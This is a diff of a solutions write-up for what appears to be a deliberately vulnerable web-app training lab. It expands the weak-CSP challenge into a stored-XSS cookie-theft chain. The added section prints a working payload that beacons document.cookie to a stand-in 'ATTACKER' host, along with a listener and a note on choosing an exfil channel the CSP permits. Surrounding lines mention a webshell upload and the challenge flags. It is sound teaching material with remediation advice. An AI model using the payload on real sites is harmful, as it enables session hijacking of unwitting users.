

Before and after one commit to wolinskis/css-lab-kit, a Markdown page: webapp/SOLUTIONS.md, 2 parts joined by grey strips. Shown at 97% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Expand CSP write-up (bypass + cookie-theft chain)
Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>

````diff
--- a/webapp/SOLUTIONS.md
+++ b/webapp/SOLUTIONS.md
@@ -17,7 +17,7 @@ Try each vuln yourself first (checklist Phase 0 → detect → exploit). `U=http
 | File upload | `FLAG{w3bshell_upl0ad_to_rce}` | webshell → `cat private/upload_flag.txt` |
 | Info disclosure | `FLAG{c0nfig_backup_left_in_webroot}` | `GET /config.php.bak` |
 | Weak creds | admin's note (above) | log in as `admin` with the cracked/guessed password |
-| Weak CSP | *(analysis finding — no flag)* | identify `script-src 'unsafe-inline'` in the CSP header |
+| Weak CSP (+ cookie theft) | `FLAG{xss_st34ls_the_c00kie}` (via stored XSS) | `curl -sD - -o /dev/null $U/index.php | grep -i csp`; non-HttpOnly cookie + unsafe-inline |
 
 ## 1. SQL injection — auth bypass + UNION  (`login.php`, `index.php?q=`)
 **Answer:** login is a string-concatenated query → bypass with a comment; search is injectable → UNION-dump every credential.
@@ -85,10 +85,45 @@ curl -s "$U/uploads/sh.php?c=id"
 ```
 **Result:** `uid=...` → RCE. **Reason:** `move_uploaded_file` with the raw client filename, no validation; `uploads/` is servable.
 
-## 8. Weak CSP  (every page)
-**Answer:** the CSP allows `script-src 'unsafe-inline'`, so injected inline scripts run (the XSS is *not* mitigated).
-**Command:** `curl -sD - "$U/" -o /dev/null | grep -i content-security-policy`
-**Result:** `...script-src 'self' 'unsafe-inline'...`. **Reason:** `'unsafe-inline'` defeats the main purpose of CSP — compare with challenges 5/6 where it was absent.
+## 8. Weak CSP + cookie theft  (every page)
+
+**Answer:** the CSP is present but bypassable — `script-src 'unsafe-inline'` lets injected inline scripts
+run, `img-src *` lets a beacon exfiltrate to any host, and the session/flag cookie is set **without
+`HttpOnly`**, so JavaScript can read it. Chained with the stored XSS this steals the cookie:
+`FLAG{xss_st34ls_the_c00kie}`.
+
+**Command:**
+```
+# read the RESPONSE headers (server -> you): the CSP and the Set-Cookie both live here
+curl -sD - -o /dev/null "$U/index.php" | grep -iE 'content-security-policy|set-cookie'
+#   Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; img-src *
+#   Set-Cookie: flag=FLAG{xss_st34ls_the_c00kie}          <- note: no HttpOnly -> JS can read it
+
+# attacker listener (receives the stolen cookie in its access log)
+python3 -m http.server 9001
+
+# payload posted as a GUESTBOOK MESSAGE (stored XSS); runs in every viewer's browser
+<script>new Image().src='http://ATTACKER:9001/steal?c='+document.cookie</script>
+```
+**Result:** on page load the listener logs `GET /steal?c=flag=FLAG{xss_st34ls_the_c00kie}`.
+
+**Reason / how the payload is derived:**
+- Stored XSS → arbitrary JS runs in viewers' browsers.
+- `document.cookie` is readable because the cookie has **no `HttpOnly`** → there's a value worth stealing.
+- Exfiltrate by making the browser request an attacker URL with the data in the query string.
+- **Use an image beacon, not `fetch()`** — the CSP has `img-src *` (image to any host = allowed) but no
+  `connect-src`, which falls back to `default-src 'self'` (so `fetch`/XHR to an external host = blocked).
+  Reading the CSP tells you which exfil channel survives it.
+
+**Impact:** session hijacking via XSS despite a CSP being deployed — a false sense of security.
+
+**Remediation (any one breaks the chain):** drop `'unsafe-inline'` (use a nonce/hash); restrict `img-src`
+to known hosts (and set `connect-src`); set the cookie **`HttpOnly; Secure; SameSite=Strict`** — `HttpOnly`
+alone would have stopped the theft even with the weak CSP.
+
+> Finding the headers: browser **DevTools → Network → click the document → Response Headers**, or
+> `curl -I` / `curl -sD -`. Request headers are what the browser sends; **CSP and Set-Cookie are response
+> headers** (server -> browser).
 
 ## 9. Information disclosure — exposed config backup leaks admin creds
 
````
